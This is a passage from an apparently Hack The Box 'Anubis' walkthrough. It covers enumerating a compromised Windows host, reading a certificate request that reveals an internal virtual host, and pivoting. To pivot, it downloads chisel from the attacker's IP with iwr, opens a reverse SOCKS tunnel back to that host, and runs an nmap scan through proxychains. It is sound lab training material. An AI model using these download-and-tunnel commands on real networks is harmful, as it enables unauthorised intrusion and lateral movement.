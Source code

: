 ```
   Link-local IPv6 Address . . . . . : fe80::5c15:5d65:b73:c84a%32
   IPv4 Address. . . . . . . . . . . : 172.27.199.150
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 172.27.192.1
```
Also `arp -a` doesn't show any other hosts on layer2 (MAC)
```
PS C:\windows\system32\inetsrv> arp -a

Interface: 172.27.199.150 --- 0x20
  Internet Address      Physical Address      Type
  172.27.192.1          00-15-5d-f2-84-be     dynamic   
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.251           01-00-5e-00-00-fb     static    
  224.0.0.252           01-00-5e-00-00-fc     static 
```
There is CSR present in Administrator's Desktop folder
```
PS C:\Users\Administrator\Desktop> type req.txt
-----BEGIN CERTIFICATE REQUEST-----
MIICoDCCAYgCAQAwWzELMAkGA1UEBhMCQVUxEzARBgNVBAgMClNvbWUtU3RhdGUx
ETAPBgNVBAoMCFdpbmRDb3JwMSQwIgYDVQQDDBtzb2Z0d2FyZXBvcnRhbC53aW5k
Y29ycC5odGIwggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQCmm0r/hZHC
KsK/BD7OFdL2I9vF8oIeahMS9Lb9sTJEFCTHGxCdhRX+xtisRBvAAFEOuPUUBWKb
BEHIH2bhGEfCenhILl/9RRCuAKL0iuj2nQKrHQ1DzDEVuIkZnTakj3A+AhvTPntL
eEgNf5l33cbOcHIFm3C92/cf2IvjHhaJWb+4a/6PgTlcxBMne5OsR+4hc4YIhLnz
QMoVUqy7wI3VZ2tjSh6SiiPU4+Vg/nvx//YNyEas3mjA/DSZiczsqDvCNM24YZOq
qmVIxlmQCAK4Wso7HMwhaKlue3cu3PpFOv+IJ9alsNWt8xdTtVEipCZwWRPFvGFu
1x55Svs41Kd3AgMBAAGgADANBgkqhkiG9w0BAQsFAAOCAQEAa6x1wRGXcDBiTA+H
JzMHljabY5FyyToLUDAJI17zJLxGgVFUeVxdYe0br9L91is7muhQ8S9s2Ky1iy2P
WW5jit7McPZ68NrmbYwlvNWsF7pcZ7LYVG24V57sIdF/MzoR3DpqO5T/Dm9gNyOt
yKQnmhMIo41l1f2cfFfcqMjpXcwaHix7bClxVobWoll5v2+4XwTPaaNFhtby8A1F
F09NDSp8Z8JMyVGRx2FvGrJ39vIrjlMMKFj6M3GAmdvH+IO/D5B6JCEE3amuxU04
CIHwCI5C04T2KaCN4U6112PDIS0tOuZBj8gdYIsgBYsFDeDtp23g4JsR6SosEiso
4TlwpQ==
-----END CERTIFICATE REQUEST-----
```
We can see that it gives us another Virtual Host that we'll check later `softwareportal.windcorp.htb`
Add it to the /etc/hosts file and point it to 172.27.192.1
```
luka@kali:~/htb/anubis$ openssl req -in cert -noout -text
Certificate Request:
    Data:
        Version: 1 (0x0)
        Subject: C = AU, ST = Some-State, O = WindCorp, CN = softwareportal.windcorp.htb
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                RSA Public-Key: (2048 bit)
                Modulus:
```
### Setting up Proxy / Chisel
Link:
```
iwr http://10.10.14.17/chisel-x64.exe -out chisel-x64.exe
```
Start chisel
```
.\chisel-x64.exe client 10.10.14.17:8080 R:2080:socks
```
### NMAP 172.27.192.1
```
luka@kali:~$ sudo proxychains -q nmap -sT -sV --top-ports 20 172.27.192.1
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-09 15:53 GMT
```
